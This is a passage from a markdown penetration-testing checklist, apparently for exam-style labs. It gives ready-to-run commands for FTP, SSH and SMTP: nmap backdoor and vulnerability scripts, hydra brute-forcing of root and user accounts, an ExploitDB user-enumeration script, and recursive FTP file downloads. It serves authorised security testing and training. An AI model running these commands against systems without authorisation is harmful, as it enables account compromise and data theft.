 		nmap --script ftp-anon,ftp-bounce,ftp-libopie,ftp-proftpd-backdoor,ftp-vsftpd-backdoor,ftp-vuln-cve2010-4221,tftp-enum -Pn -oN nmap/ftpVuln -p 21 $IP
		```
- [ ] Default credentials check
	```bash
	hydra -s <PORT> -C usr/share/wordlists/ftp-default-userpass.txt -u -f $IP ftp
	```
- [ ] Download recursively all the files
	```bash
	wget -r ftp://user:pass@$IP/
	wget -r --user="user" --password="secret" ftp://$IP/
	```
### SSH (TCP 22)
- [ ]  [Banner grabbing](Methodologies/recon_enum_methodology🛰.md#grab-the-damn-banner)
- [ ] User enumeration
	```bash
	# using msf
	msf > use auxiliary/scanner/ssh/ssh_enumusers
	# leveraging exploit from ExploitDB
	python /usr/share/exploitdb/platforms/linux/remote/40136.py -U /usr/share/wordlists/metasploit/unix_users.txt $IP
	 ```
- [ ] Bruteforce root
	```bash
	hydra -v -V -l root -P password-file.txt ssh://$IP
	```
- [ ] Bruteforce list of user
	```bash
	hydra -v -V -L userlist.txt -P password-file.txt ssh://$IP
	```
- [ ] Use requested Key Exchange List
	```bash
	ssh user@$IP -oKexAlgorithms={kex\_list}
	```
- [ ] Use requested cipher
	```bash
	ssh user@$IP -c {cipher}
	```
- [ ] Use requested MAC
	```bash
	ssh user@$IP -m {MAC}
	```
### SMTP (TCP 25)
- [ ] Enumeration with nmap
	```bash
	nmap --script smtp-commands,smtp-enum-users,smtp-ntlm-info,smtp-open-relay -Pn -oN nmap/smtpEnum -p 25,465,587 $IP
	```
- [ ] Any known vulnerability?
	- [ ] Check https://www.exploit-db.com/
	- [ ] Check https://www.cvedetails.com/
	- [ ] Check https://nvd.nist.gov/
	- [ ] Check on google
		```bash
		site:github.com *Service version.release*
		```
	- [ ] Check with nmap
		```bash

[vulnscan.nse]: https://github.com/scipag/vulscan
[http://pentestmonkey.net/tools/user-enumeration/finger-user-enum]: http://pentestmonkey.net/tools/user-enumeration/finger-user-enum
[https://www.exploit-db.com/exploits/34900]: https://www.exploit-db.com/exploits/34900
[https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MySQL%20Injection.md]: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MySQL%20Injection.md
[Owasp code injection]: https://owasp.org/www-community/attacks/Code_Injection